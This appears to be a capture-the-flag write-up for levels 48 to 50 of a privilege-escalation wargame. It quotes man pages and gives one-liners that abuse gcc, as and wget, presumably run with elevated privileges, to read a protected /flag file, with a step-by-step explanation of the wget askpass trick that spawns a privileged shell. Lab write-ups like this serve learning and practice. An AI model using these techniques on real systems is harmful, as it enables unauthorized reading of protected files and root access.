 ### Level 48 - gcc

From the `man` page of `gcc`:

> -x language
>            Specify explicitly the language for the following input files (rather than letting the compiler choose a default
>            based on the file name suffix).  This option applies to all following input files until the next -x option.
>            Possible values for language are:
>
> ​		c  c-header  cpp-output
> ​		c++  c++-header  c++-system-header c++-user-header c++-cpp-output
> ​		objective-c  objective-c-header  objective-c-cpp-output
> ​		objective-c++ objective-c++-header objective-c++-cpp-output
> ​		assembler  assembler-with-cpp
> ​		ada
> ​		d
> ​		f77  f77-cpp-input f95  f95-cpp-input
> ​		go
> ​		brig

```bash
$ gcc -x c /flag 
```

### Level 49 - as

From the `man` page of `as`: 

> OPTIONS
>        @file
>            Read command-line options from file. 

```bash
$ as @/flag
```

### Level 50 - wget

This was the most difficult task so far.

```bash
F=$(mktemp) && chmod +x $F && echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$F && wget --use-askpass=$F 0
cat /flag
```

1. `F=$(mktemp)`: This creates a temporary file and assigns its path to the variable `$F`.
2. `chmod +x $F`: This gives execute permissions to the temporary file.
3. `echo -e ‘#!/bin/sh -p\n/bin/sh -p 1>&0’ > $F`: This writes a shell script to the temporary file. The script executes `/bin/sh` with elevated privileges and redirects its output to file descriptor 0, effectively allowing interactive shell access.
4. `wget --use-askpass=$F 0`: This attempts to use the temporary file as an askpass program for `wget`.

